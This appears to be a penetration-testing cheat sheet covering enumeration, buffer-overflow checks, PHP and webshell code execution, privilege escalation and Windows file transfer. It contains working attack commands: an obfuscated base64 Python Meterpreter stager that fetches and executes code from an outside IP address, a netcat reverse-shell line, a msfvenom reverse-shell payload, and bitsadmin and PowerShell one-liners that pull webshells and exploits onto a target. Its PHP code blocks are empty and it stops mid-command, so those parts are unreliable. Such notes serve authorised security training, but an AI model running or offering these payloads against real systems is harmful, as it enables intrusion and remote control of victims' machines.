 - shellshock - bruteforce - user_enum - Debian OpenSSL Predictable PRNG

### SMB Enumeration

- nmap --script vuln - nmap --script smb* - nmap --script smb-enum-shares,smb-ls - enum4linux

### BOF exploit-based

- change shellcode - make sure all badchars are removed - read the exploit properly in case this makes changes in the shellcode - capture traffic with wireshark making sure the entire shellcode is transmited - run the exploit several times - make sure the JMP ESP matches OS and language

### SNMP Enumeration

- snmpcheck - snmpenum

### PHP RCE

test: `````` simple shell: `````` `````` file upload: ```'); ?>``` file upload evasion: rot13 + urlencode ``````

### RCE via webshell

- All pentest monkey reverse shells: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet - msfvenom x86/linux/shell_reverse_tcp -f elf - Metasploit `web_delivery` module - which wget | nc<ip><port>

### SQLi UNION

search for response on HTML source code

### Reverse HTTP Shell through Proxy

```use payload/python/meterpreter/reverse_http``` ![proxy2](https://user-images.githubusercontent.com/7115563/33836652-3d9c9624-de8a-11e7-9869-e18c5a28ebd7.png) ```python -c "import base64,sys;exec(base64.b64decode({2:str,3:lambda b:bytes(b,'UTF-8')}[sys.version_info[0]]('aW1wb3J0IHN5cwp2aT1zeXMudmVyc2lvbl9pbmZvCnVsPV9faW1wb3J0X18oezI6J3VybGxpYjInLDM6J3VybGxpYi5yZXF1ZXN0J31bdmlbMF1dLGZyb21saXN0PVsnYnVpbGRfb3BlbmVyJywnUHJveHlIYW5kbGVyJ10pCmhzPVtdCmhzLmFwcGVuZCh1bC5Qcm94eUhhbmRsZXIoeydodHRwJzonaHR0cDovLzE5Mi4xNjguMTA3LjIzMjo4MDgwJ30pKQpvPXVsLmJ1aWxkX29wZW5lcigqaHMpCm8uYWRkaGVhZGVycz1bKCdVc2VyLUFnZW50JywnTW96aWxsYS81LjAgKFdpbmRvd3MgTlQgNi4xOyBUcmlkZW50LzcuMDsgcnY6MTEuMCkgbGlrZSBHZWNrbycpXQpleGVjKG8ub3BlbignaHR0cDovLzE3OC42Mi41OC4zNTo4MC9qOTkzQScpLnJlYWQoKSkK')))"``` Finally we set up the handler: ![proxy3](https://user-images.githubusercontent.com/7115563/33836552-fd3204ac-de89-11e7-940c-71c8ab321bf7.png)

### Kernel Exploits

Linux: https://github.com/lucyoa/kernel-exploits Windows: https://github.com/abatchy17/WindowsExploits

### Linux Privilege Escalation

- sudo -l - Kernel Exploits - OS Exploits - Password reuse (mysql, .bash_history, 000-default.conf...) - Known binaries with suid flag and interactive (nmap) - Custom binaries with suid flag either using other binaries or with command execution - Writable files owned by root that get executed (cronjobs) - MySQL as root - Vulnerable services (chkrootkit, logrotate) - Writable /etc/passwd - Readable .bash_history - SSH private key - Listening ports on localhost - /etc/fstab - /etc/exports - /var/mail - Process as other user (root) executing something you have permissions to modify - SSH public key + Predictable PRNG - apt update hooking (Pre-Invoke)

### Windows Privilege Escalation

- Kernel Exploits - OS Exploits - Pass The Hash - Password reuse - DLL hijacking (Path) - Vulnerable services - Writable services binaries path - Unquoted services - Listening ports on localhost - Registry keys

### Windows File Transfer

**bitsadmin** `bitsadmin /transfer debjob /download /priority normal http://<ip>/shell.php c:\xampp\htdocs\shell.php` **cscript wget.vbs (code on the repo)** `cscript wget.vbs http://<ip>/test.txt test.txt` **powershell** `powershell -c "(new-object System.Net.WebClient).Downloadfile('http://<ip>/exploit.exe', 'C:\Windows\temp\exploit.txt')"` **ftp** client:

<pre>echo open <ip>2121 > ftpscript.txt
echo anonymous>> ftpscript.txt
```